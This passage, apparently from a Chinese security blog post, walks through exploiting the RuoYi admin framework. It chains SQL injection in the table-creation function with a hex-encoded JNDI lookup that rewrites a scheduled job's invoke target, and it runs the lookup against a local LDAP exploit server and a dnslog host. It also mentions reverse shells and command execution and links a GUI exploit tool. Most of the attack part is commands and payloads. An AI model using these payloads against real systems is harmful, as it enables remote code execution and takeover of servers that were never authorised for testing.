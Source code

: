 ```  
)。  
  
jdk版本要求1.8  
```
java -jar '.\JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar' -C calc -A 127.0.0.1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNuArqg8cUPEuCHicnfVBss6s8mWt3YJ3StibRVaTAus6IhEGqGbGpsCHA/640?wx_fmt=png&from=appmsg "")  
  
  
执行被修改的1任务  
  
JNDI  
```
javax.naming.InitialContext.lookup('ldap://127.0.0.1:1389/deserialJackson')
```  
  
payload中可以执行反弹shell、漏洞探测、命令执行功能  
  
DNSLOG  
```
javax.naming.InitialContext.lookup('ldap://dnslog')
```  
  
目标字符串不允许'ldap(s)'调用且不能存在括号，因此我们使用SQL注入加十六进制编码来进行绕过修改  
  
https://www.bejson.com/convert/ox2str/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNXPG84mhVzfEXcbGOULWicl0QiaTGrtZBbNuzlSt8vOic8sJmjqUFHTNKg/640?wx_fmt=png&from=appmsg "")  
```
0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f7263793870732e646e736c6f672e636e2729
```  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNlNf2icME9x5YvUIDslM3ib01MJkvGja7qAMn4fr8via7QZLyOeaeQZBKg/640?wx_fmt=png&from=appmsg "")  
  
我们再来试试dnslog  
```
javax.naming.InitialContext.lookup('ldap://rcy8ps.dnslog.cn')
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNmiab1wtS5IyX3nIfg2TQCrd9YEAhmRUR5eYEuNN38RNicjxxHrxIJMnw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN10QkKgJMJImFULQVmPQ4F2KojJDicOdZINiao71v11cQHICpnUZ763Xg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNZECpCia9WqEXnRiaBicBIoV0aDZhPqT5taMy1DY8waXgMwDjAEwAicWFibA/640?wx_fmt=png&from=appmsg "")  
  
工具使用：  
  
https://github.com/charonlight/RuoYiExploitGUI  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNluQos7AHgA9nOMr9jCZkVeo495UrV2Ep3ibp2XVa6gWPYSib0LU9eia6g/640?wx_fmt=png&from=appmsg "")  
  
```